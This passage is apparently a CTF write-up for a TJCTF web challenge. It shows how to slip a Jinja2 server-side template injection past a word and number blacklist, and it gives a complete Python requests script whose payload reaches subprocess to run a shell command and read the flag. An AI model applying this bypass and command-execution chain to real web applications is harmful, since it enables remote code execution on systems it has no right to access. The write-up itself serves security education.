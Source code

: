 Tricky enough, we can bypass all of these rules using alternative inputs : 

### Bypass blacklist

We have to bypass the restricted words like _class_ and _subclass_ using |attr and the number filtering in arrays unsing _.pop(index)_
```python
''.__class__  # bypass using ''|attr(request.args.cl) adding ?cl=__class__ as GET param
__mro__[1]    # bypass using mro().pop(request.args.num | int) adding ?num=1 or &num=1 (if not first arg) as GET param
```

Same logic for the other blacklisted words and numbers.
Final payload :

```python
#!/bin/python
import requests
import multiprocessing

headers = {
    'authority': 'congenial_octo_couscous.tjctf.org',
    'accept': '*/*',
    'x-requested-with': 'XMLHttpRequest',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'origin': 'https://congenial_octo_couscous.tjctf.org',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'cors',
    'sec-fetch-dest': 'empty',
    'referer': 'https://congenial_octo_couscous.tjctf.org/',
    'accept-language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

data = {
  'fname': 'test',
  'lname': 'test',
  'email': 'test',
  'username': {% raw %}'{{((\'\'|attr(request.args.cl)).mro().pop()|attr(request.args.sub)()).pop(request.args.uno|int)(\'cat strategyguide.txt\', shell=True,stdout=(request.args.meno|int)).communicate()}}'{% endraw %}
}

response = requests.post('https://congenial_octo_couscous.tjctf.org/apply?cl=__class__&sub=__subclasses__&dic=__dict__&uno=199&meno=-1', headers=headers, data=data)
print(response.content)
```
🏁 __tjctf{c0ng3n1al_500iq_str4ts_ez_dub}__{:.spoiler}

## File Viewer

> So I've been developing this really cool site where you can read text files! It's still in beta mode, though, so there's only six files you can read.
